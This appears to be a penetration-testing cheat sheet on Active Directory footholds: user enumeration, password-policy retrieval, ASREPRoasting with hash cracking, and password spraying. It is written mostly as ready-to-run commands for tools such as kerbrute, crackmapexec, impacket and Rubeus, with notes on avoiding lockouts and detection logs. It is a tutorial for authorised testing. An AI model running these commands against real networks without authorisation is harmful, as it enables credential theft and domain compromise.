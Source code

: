 # Password Spraying

Once you are in the network and have enumerated live hosts using nmap, tcpdump or whatever tool.
We need to find a way to establish foothold in domain by gettng username and credentials (clear text or NTLM hash).
It is important to get this access in the early stages of pentest so we can perform more enumeration and attacks.

Note: It’s possible to do this using the SYSTEM account because it can impersonate the computer.
A computer object is treated as a domain user account (with some differences, such as authenticating across forest trusts). 


### Users Enumeration

- SMB NULL sessions allow an unauthenticated attacker to retrieve information from the domain, 
such as a complete listing of users, groups, computers, user account attributes, and the domain password policy.

 ```shell
 # using enum4linux
 enum4linux -U $DC_IP  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"

 # using rpcclient
 rpcclient -U "" -N $DC_IP
 rpcclient $> enumdomusers

 # using crackmapexec
 crackmapexec smb $DC_IP --users
 ```

- LDAP Anonymous Bind allow unauthenticated attackers to retrieve information from the domain, such as a complete
 listing of users, groups, computers, user account attributes, and the domain password policy.

 ```shell
 # using ldapsearch, we need to provide proper filter for getting usernames
 ldapsearch -H ldap://$DC_IP -x -b "DC=$DOMAIN,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "

 # using windapsearch, it is easier as we dont need filter
 windapsearch.py --dc-ip $DC_IP -u "" -U
 windapsearch.py --dc-ip $DC_IP -d $DOMAIN --custom "objectClass=*"
 ```

- Do some OSINT and try to get information related to people of the target company.
- You can use `linkedin2username` to create a possible worlist of users.

 ```shell
 linkedin2username.py -c company_name -n $DOMAIN -g -o linked_in_users.txt
 ```
- kerbrute is a stealthy option for domain account enumeration.
- It uses kerberos protocol to check if the username is valid or not.
- It takes advantage of kerberos pre-authentication, as the failures will not trigger logs or alerts.
 like Windows event ID 4625: An account failed to log on and event ID 4768: A Kerberos authentication
 ticket (TGT) was requested. This will only be triggered if Kerberos event logging is enabled via Group Policy.
- If we are successful with this, we should mention it in report

 ```shell
 kerbrute userenum -d $DOMAIN --dc $DC_IP wordlist.txt -o valid_ad_users

 # The tool sends TGT requests to the domain controller without Kerberos 
 # Pre-Authentication to perform username enumeration. If the KDC responds 
 # with the error PRINCIPAL UNKNOWN, the username is invalid.
 ```

Note: crackmapexec will provide you bad password count and time the latest bad attempt occured. This 
will help you in knowing which accounts are close to lockdown and you should avoid attacking them.
This count is maintained separate on each DC in case of multiple DCs.


### Getting Domain Password Policy

- Be careful not to lock accounts while spraying.
- Try to get domain password policy and prepare password list accordingly.
- We can get password policy from `SMB NULL Session` or `LDAP Anonymous Bind`.
- SMB NULL Session from Linux:

 ```shell
 # using rpc client
 rpcclient -U "" -N $DC_IP
 rpcclient $> getdompwinfo

 # using enum4linux
 enum4linux -P $DC_IP

 # using enum4linux-ng (better choice)
 enum4linux-ng -P $DC_IP -oA domain_info
 ```


- SMB NULL Session from Windows:

 ```shell
 net use \\DC01\ipc$ "" /u:""

 # you can use it to check users and passwords
 net use \\DC01\ipc$ "" /u:username
 net use \\DC01\ipc$ "password" /u:username
 ```

- LDAP Anonymous Bind from Linux:

 ```shell
 ldapsearch -H ldap://$DC_IP -x -b "DC=<$DOMAIN>,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
 ```

- LDAP Anonymous Bind from Windows:

 ```shell
 # built in tool
 net accounts

 # using powerview
 import-module .\PowerView.ps1
 Get-DomainPolicy

 # You can also use crackmapexec
 ```

- If you have tried other methods and dont have foothold, you may ask the client to
provide password policy.


## ASREPRoasting

```shell
# Match time with server to get correct ticket
sudo timedatectl set-ntp off
sudo rdate -n target_IP

# Using kerbrute
kerbrute userenum -d $DOMAIN --dc $DC_IP valid_users_list 

# Using powerview
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

# Using impacket toolkit
GetNPUsers.py $DOMAIN/ -dc-ip $DC_IP -no-pass -usersfile valid_ad_users 

# Using rubeus
Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat

# Cracking the password
hashcat -m 18200 hash wordlist
```


## Password Spraying

- Once we have enumerated usernames, password policy and prepared wordlists accordingly, we can start
spraying passwords.

- For Linux:

 ```shell
 # using rpc client
 for u in $(cat $USERNAMES_LIST);do rpcclient -U "$u%$Password" -c "getusername;quit" $DC_IP | grep Authority; done

 # using kerbrute
 kerbrute passwordspray -d $DOMAIN --dc $DC_IP valid_users.txt  $PASSWORD
 
 # using crackmapexec
 crackmapexec smb $DC_IP -u valid_users.txt -p $PASSWORD | grep +
 ```

- If you get some hits, you can validate them:

 ```shell
 crackmapexec smb $DC_IP -u username -p password
 ```

- For Windows:
 ```shell
 # DomainPasswordSpray is a cool tool. If you run it when you are authenticated to domain
 # it will retrieve password policy, valid users and exclude accounts within 1 attempt of locking out
 Import-Module .\DomainPasswordSpray.ps1
 Invoke-DomainPasswordSpray -Password $PASSWORD -OutFile spray_success -ErrorAction SilentlyContinue
 ```

- Always look for patterns in password, try password reuse etc.
- Internal password spraying is possible from domain user account as well as local admin if you have creds, NTLM hash.
- If you have hash of local admin on a machine, you can spray it on entire subnet to check if it is valid on other machines as well.

 ```shell
 crackmapexec smb --local-auth $IP/23 -u administrator -H $HASH | grep +
 ```

### Other Targets
- Microsoft 0365
- Outlook Web Exchange
- Exchange Web Access
- Skype for Business
- Lync Server
- Microsoft Remote Desktop Services (RDS) Portals
- Citrix portals using AD authentication
- VDI implementations using AD authentication such as VMware Horizon
- VPN portals (Citrix, SonicWall, OpenVPN, Fortinet, etc. that use AD authentication)
- Custom web applications that use AD authentication